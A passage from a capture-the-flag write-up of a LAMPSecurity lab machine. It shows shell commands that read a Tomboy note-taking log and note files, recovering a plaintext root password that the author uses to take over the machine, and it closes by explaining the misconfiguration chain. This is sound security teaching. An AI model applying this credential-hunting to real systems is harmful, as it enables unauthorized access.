 I couldn't read the .mysql_history or test.txt files, but the next one I tried, the <code>.tomboy.log</code> file, was really interesting! I only show the interesting bits here:

``` plain
sh-3.2$ cat .tomboy.log
...
12/5/2012 7:24:34 AM [DEBUG]: Creating Buffer for 'New Note 3'...
12/5/2012 7:24:34 AM [DEBUG]: New Note 3 tags:
12/5/2012 7:24:38 AM [DEBUG]: Saving 'New Note 3'...
12/5/2012 7:24:46 AM [DEBUG]: Renaming note from New Note 3 to Root password
12/5/2012 7:24:56 AM [DEBUG]: Saving 'Root password'...
12/5/2012 7:25:03 AM [DEBUG]: Saving 'Root password'...
12/5/2012 7:27:41 AM [DEBUG]: Received request for saving session
12/5/2012 7:27:41 AM [DEBUG]: Saving unsaved notes...
12/5/2012 7:27:41 AM [DEBUG]: All done.  Ciao!
```

Tomboy is a note-taking application and it looks like the root password was saved in a note?! I went to the <code>.tomboy</code> directory and found some notes:

``` plain
sh-3.2$ ls
481bca0d-7206-45dd-a459-a72ea1131329.note
addin-db-000
addins
ae9cfc26-64e8-4f6f-a8b4-0296e8173504.note
d2684fad-3aab-444c-b90a-4f307c0818f6.note
manifest.xml
```

Found the jackpot in the first one!

``` plain
sh-3.2$ cat 481bca0d-7206-45dd-a459-a72ea1131329.note
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" xmlns:link="http://beatniksoftware.com/tomboy/link" xmlns:size="http://beatniksoftware.com/tomboy/size" xmlns="http://beatniksoftware.com/tomboy">
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
...
```

Now all that is left is to become root! I SSH'ed with the root credentials and the machine is mine now! 

##### Concluding remarks

This was another cool challenge in the LAMPSecurity series! The exploitation was possible because of the vulnerable CMS that not only disclosed credentials, but also allowed an attacker to execute code on the target. Although the foothold gained was under an unprivileged user, certain files of the home directories were readable when they shouldn't have been, and the root password was sitting in an unprotected file for anyone to read. A good example of how a chain of misconfigurations can lead to total compromise of a machine.
